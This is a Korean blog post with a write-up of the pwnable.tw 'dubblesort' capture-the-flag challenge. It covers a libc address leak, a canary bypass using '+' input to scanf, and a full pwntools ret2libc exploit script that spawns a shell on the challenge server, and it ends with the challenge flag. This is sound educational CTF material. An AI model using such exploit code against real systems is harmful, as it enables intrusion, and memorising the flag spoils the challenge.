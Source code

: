 ```yaml
---
layout: post
title: "[pwnable.tw] dubblesort 풀이"
date: 2018-06-28 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## dubblesort [200 pts]
### Sort the memory!
### `nc chall.pwnable.tw 10101`
### [dubblesort](https://pwnable.tw/static/chall/dubblesort)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/dubblesort/01.png)
{: refdef}

에?

{: refdef: style="text-align: center;"}
![main_01](/img/pwnable.tw/dubblesort/02.png)
{: refdef}
{: refdef: style="text-align: center;"}
![main_02](/img/pwnable.tw/dubblesort/03.png)
{: refdef}

`max_count`를 입력받는 부분을 보면 `%u`로 받고나서 길이체크 같은게 하나도 없어요.

그래서 이 부분을 사용해 `BOF`를 일으키고 `ROP`를 써서 풀거에요.

- - -
# 0x01. 공격 방법

우선 제가 생각한 방법으로 공격하려면

- `canary` 알아내기

- memory leak

이렇게 2개가 필요해요.

`canary`를 알아내려면 아마 `read`를 사용하는 `name` 부분에서 할텐데 `0x40`으로 딱 맞아서 알아낼 수 없어요.

{: refdef: style="text-align: center;"}
![memory](/img/pwnable.tw/dubblesort/04.png)
{: refdef}

보면 `canary`는 못 알아내지만 `0xf7fb4000`라는 이상한 냄새 풀풀나는 주소는 알아낼 수 있어요.

>gdb-peda$ p system<br />
$1 = {<text variable, no debug info>} 0xf7e19200 <system>

그럼 이제 `canary`가 문젠데

어떻게는 해보려고 막 하다가 알아낸건데 `%u`에서 숫자가 아닌 문자를 넣었을 때 해당 값이 그대로인걸 알아냈어요!

신나서 페이로드 작성해서 돌려보니까 `canary`는 그대론데 그 이후로도 값이 그대로임...

그래서 다른 문자들로 넣어보다가 `+`, `-`는 그 이후의 값이 바뀌는 걸 확인했어요.

마지막으로 디버깅하다가 알아낸건데 값을 다 넣으면 `func_sort`에 의해서 넣은 값들이 정렬돼요.

그래서 저는 `canary`전에는 작은 값들을 넣고 이후엔 `canary`보단 크지만 `system`같은 함수보단 작은 값들을 넣었고 `system`이 끝나고 리턴 주소는 그냥 `system`이랑 똑같이 넣었어요.

- - -
# 0x02. 익스프로잇

로컬 서버로 테스트할 땐 `process`가 안돼서 32bit ubuntu에서 돌렸어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "192.168.0.23"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10101

############################################

s = remote(HOST, PORT)

elf = ELF("./dubblesort")
libc = ELF("./libc_32.so.6")
pause()

############################################

system_off = libc.symbols["system"]
binsh_off = list(libc.search("/bin/sh"))[0]

############################################

s.sendafter("name :", "A"*25)
s.recvuntil("A"*25)
save = u32("\x00" + s.recv(3))

libc_base = save - 0x1b0000
system_addr = libc_base + system_off
binsh_addr = libc_base + binsh_off

print "[*] libc_base : " + hex(libc_base)
print "[*] system_addr : " + hex(system_addr)
print "[*] binsh_addr : " + hex(binsh_addr)

s.sendafter("sort :", "35\n")

for i in range(31):
  if(i < 23):
    s.recv()
    print str(i) + " is " + str(i)
    s.sendline(str(i))

  if(i == 23):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

  if(i == 24):
    s.recv()
    print "canary"
    s.sendline("+")
  
  if(i > 24):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

s.recv()
s.sendline("1") # ebp

s.recv()
s.sendline(str(system_addr)) # ret

s.recv()
s.sendline(str(system_addr)) # ret + 4

s.recv()
s.sendline(str(binsh_addr)) # ret + 8

sleep(2)
s.recv()

s.interactive()
```

### FLAG{Dubo_duBo_dub0_s0rttttttt}